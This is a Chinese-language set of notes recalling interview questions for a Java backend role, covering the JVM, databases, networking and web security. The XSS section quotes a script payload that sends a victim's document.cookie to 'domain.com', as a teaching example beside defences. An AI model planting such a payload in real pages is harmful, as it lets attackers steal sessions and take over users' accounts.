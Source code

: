 ### 2019.8.15 网易云音乐 一面

48min 

OS：问的范围很广

1. 平时工作中使用的jdk版本（1.7和1.8）

2. 默认的是修饰符 defult ，访问权限

     |           | 同一个类 | 同一个包 | 不同包的子类 | 不同包的非子类 |
     | --------- | -------- | -------- | ------------ | -------------- |
     | private   | 可以     |          |              |                |
     | public    | 可以     | 可以     | 可以         | 可以           |
     | protected | 可以     | 可以     | 可以         |                |
     | default   | 可以     | 可以     |              |                |

3. ClassNotFound 遇到过吗？为什么？

     * 原因：类名写错、加载路径写错

4. RuntimeException 与一般异常的区别

     * 运行时异常：由java虚拟机抛出的异常。用户不必处理。运行时异常表示虚拟机的通常操作中可能遇到的异常，是一种常见运行错误。java编译器要求方法必须声明抛出可能发生的非运行时异常，但是并不要求必须声明抛出未被捕获的运行时异常。
     * 如 ArithmeticException, ConcurrentModificationException, IllegalArgumentException, IndexOutOfBoundsException, NullPointerException, 
     * 一般异常是用户可以抛出的异常，如果抛出调用必须进行处理。

5. 平时用的什么数据库？

6. sql语句，具体执行过程

     * 解析语句，判断是否有高速缓存，有则直接返回
     * 检查 SQL 语句的合法性，是否符合语法规则
     * 检查 SQL 语句的语义是否正确，如表名、字段
     * 获取对象锁
     * 访问权限核对
     * 优化 SQL 语句执行，并放入高速缓存中
     * 提取数据

7. 一个数据表，有五个字段（id,cardId,name,sex,age），如何建立索引？

8. 索引的底层结构（现在想一想可能会要讲一讲B+树索引）

9. 非关系型数据库了解吗？和关系型数据库的区别？
     什么时候用非关系型数据库？

10. 数据结构哪些比较熟？（回答熟悉 链表和树，图不太熟悉，结果面试官就问好多图）

11. ArrayList 和 LinkedList 区别，平时项目中用哪一个更多，具体场景？

12. 如何计算一棵树的高度？递归结束条件是什么？

13. 如何判断一个图是连通图？

14. 拓扑排序使用场景？具体思路？

15. HTTP 报文内容

16. TCP 建立连接过程

17. JVM 中堆和栈的区别？反射得到的类放在哪里？（应该是方法区）方法区会发生GC吗？（回收无用的类和常量） 项目中有遇到过方法区GC吗？

18. 线程池的初始化

19. CPU的 load （不会，Linux）

20. JSP 写过吗？

21. XSS（跨站脚本攻击）说了不知道，讲了知道的 SQL注入攻击
   * 跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。
     * 供给与案例
       例如有一个论坛网站，攻击者可以在上面发布以下内容：
       
            ```
            <script>location.href="//domain.com/?c=" + document.cookie</script>
            ```
       之后该内容可能会被渲染成以下形式：
       
            ```
            <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
            ```
       另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。
       
     * 危害
        * 窃取用户的 Cookie
        * 伪造虚假的输入表单骗取个人信息
         * 显示伪造的文章或者图片       
     * 防范手段  
       1. 设置 Cookie 为 HttpOnly
          设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。
          
       2. 过滤特殊字符
          例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。
          
          富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。
          
          富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

   * 跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

     XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

     * 防范手段
       1. 检查 Referer 首部字段
       2. 添加校验 Token
       3.  输入验证码

   * SQL 注入攻击
        * 防范手段
       1. 使用参数化查询

22. 场景题：怎么存储用户的id和password？加密方法有哪些？（说了MD5）

23. 中间件了解哪些？讲讲 zookeeper 的选举机制，zookeeper 的存储结构？

24. 讲讲定时任务系统怎么做的，说了Eureka 注册中心

25. 有什么问题想问的？